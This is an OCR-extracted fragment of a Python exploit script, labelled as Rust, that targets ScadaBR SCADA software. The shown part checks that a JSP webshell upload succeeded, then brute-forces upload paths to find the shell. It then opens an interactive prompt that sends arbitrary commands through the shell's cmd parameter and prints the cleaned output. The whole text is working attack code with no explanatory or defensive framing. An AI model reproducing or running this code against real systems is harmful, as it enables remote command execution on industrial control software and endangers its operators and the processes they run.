 ```rust
        getdata = s.post(burp0_url, headers=burp0_headers, data=burp0_data.encode())
        time.sleep(1)
        print('[>] Verifying shell upload...\n')
        time.sleep(2)

        if getdata.status_code == 200:
            print('[+] Upload Successfully!')
            for num in range(1, 500):
                PATH = f'http://{host}:{port}/ScadaBR/uploads/{num}.jsp'
                find = s.get(PATH)
                if find.status_code == 200:
                    print(f'[+] Webshell Found in: {PATH}')
                    flag = True
                    print('[>] Spawning fake shell...')
                    time.sleep(3)

                    while flag:
                        try:
                            param = input("# ")
                            if param.strip().lower() in ['exit', 'quit']:
                                flag = False
                                break
                            shell_url = f"{PATH}?cmd={param}"
                            shell_response = s.get(shell_url)
                            clean = shell_response.text \
                                .replace('<pre>', '') \
                                .replace('<FORM METHOD=', '') \
                                .replace('<HTML><BODY>', '') \
                                .replace('"GET" NAME="myform" ACTION="">', '') \
                                .replace('Commands with JSP', '') \
                                .replace('<INPUT TYPE="text" NAME="cmd">', '') \
                                .replace('<INPUT TYPE="submit" VALUE="Send">', '') \
                                .replace('</FORM>', '') \
                                .replace('<BR>', '\n') \
                                .replace('</pre>', '') \
                                .replace('</BODY></HTML>', '')
                            print(clean.strip())
                        except KeyboardInterrupt:
                            print("\n[x] Exiting shell...")
                            flag = False
                            break
                    break

                elif num == 499:
                    print('[x] Webshell not Found')
        else:
            print('Reason: ' + getdata.reason)
            print('Exploit Failed x_x')


if __name__ == '__main__':
    main()
```
